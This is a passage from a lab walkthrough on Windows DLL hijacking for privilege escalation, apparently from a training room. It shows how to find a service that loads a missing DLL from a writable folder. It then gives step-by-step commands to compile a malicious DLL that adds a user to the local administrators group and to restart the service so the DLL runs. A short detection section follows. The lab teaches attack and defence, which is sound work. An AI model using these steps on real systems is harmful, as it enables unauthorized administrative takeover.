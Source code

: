 10. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.

**Exploitation**

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_dll.c’ to the Kali VM.

Kali VM

1. Open 'windows_dll.c' in a text editor and replace the command used by the `system()` function to: `cmd.exe /k net localgroup administrators user /add`
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`
3. Copy the generated file "hijackme.dll", to the Windows VM.

Windows VM

1. Place "hijackme.dll" in ‘C:\Temp’.
2. Open command prompt and type: `sc stop dllsvc & sc start dllsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

## #8.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

Open "process monitor" and add the following 2 filters:

!["procmon-filter.png"](files/procmon-filter.png)
